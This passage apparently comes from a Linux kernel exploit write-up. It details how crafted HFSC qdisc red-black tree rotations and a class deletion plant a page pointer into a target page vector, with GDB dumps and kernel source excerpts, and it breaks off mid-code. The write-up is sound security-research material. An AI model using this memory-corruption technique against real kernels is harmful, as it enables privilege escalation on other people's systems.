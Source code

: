 Then node E's `rb_left` is zeroed out (essentially the first page pointer in the target page vector is set to NULL), `[3]` and then E becomes node C's `rb_right` child. `[4]`

Finally, in [__rb_rotate_set_parents()](https://elixir.bootlin.com/linux/v6.6.90/source/lib/rbtree.c#L75), node C's parent is set to zero, C becomes E's parent node, and then node C is promoted to root node, resulting in the following tree configuration: `[5]`

``` 
                   C (2:2)
                  / \
                 P   E
                    /
                   T (NULL) 
```

This is node C in GDB:

```c
gef➤  p *(struct rb_node *)0xffff88810a6d18a0 // C (2:2)
$67 = {
    __rb_parent_color = 0x0,
    rb_right = 0xffff88810a6d1bf0, // E
    rb_left = 0xffff88810ac21000 // P 
}
```

And node E:

```c
gef➤  p *(struct rb_node *)0xffff88810a6d1bf0 // E
$68 = {
    __rb_parent_color = 0xffff88810a6d18a0, // C
    rb_right = 0x0 <fixed_percpu_data>,
    rb_left = 0x0 <fixed_percpu_data> // TARGET
}
```  

**@step(8): Ptr copy (3/3): Trigger a RBTree deletion**

We have finally reached the last step. Now we only need to trigger the removal of class 2:2 from the tree. This will set Evil Grandpa's `rb_left` child (the first page in the target `pgv`) to the address of page P.

The following chain of calls is triggered in the kernel: `hfsc_delete_class() -> qdisc_purge_queue() -> qdisc_tree_reduce_backlog() -> hfsc_qlen_notify() -> eltree_remove() -> rb_erase() -> __rb_erase_augmented()`. 

`__rb_erase_augmented()` proceeds to remove class 2:2 from the tree, and then rebalances it:

```c
static __always_inline struct rb_node *
__rb_erase_augmented(struct rb_node *node, struct rb_root *root,
             const struct rb_augment_callbacks *augment)
{
    struct rb_node *child = node->rb_right; 
    struct rb_node *tmp = node->rb_left;
    struct rb_node *parent, *rebalance;
    unsigned long pc;

    // node  = C (0xffff88810a6d18a0)
    // child = C->rb_right = E (0xffff88810a6d1bf0)
    // tmp   = C->rb_left = P (0xffff88810ac21000)

    if (!tmp) {
        // ...
    } else if (!child) {
        // ...
    } else {
        struct rb_node *successor = child, *child2; // successor = E

```